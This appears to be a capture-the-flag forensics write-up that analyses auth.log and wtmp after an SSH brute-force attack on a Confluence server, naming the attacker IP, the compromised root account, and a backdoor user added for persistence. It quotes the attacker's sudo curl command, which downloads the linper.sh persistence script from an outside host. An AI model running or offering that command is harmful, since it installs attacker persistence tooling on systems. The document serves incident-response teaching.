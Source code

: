```yaml
---
layout: default
---
```


[🏠 home](../)

<h1 style="text-align: center;">Incident Response and Forensic Analysis on SSH Brute-Force Attack</h1>

## Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

## Response

*Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?*

It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

*The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?*

Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

*Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?*

2024-03-06 06:32:45

*SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*

37

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

*The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*

cyberjunkie.

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

*What is the MITRE ATT&CK sub-technique ID used for persistence?*

[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

*How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)*

Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

*The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?*

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
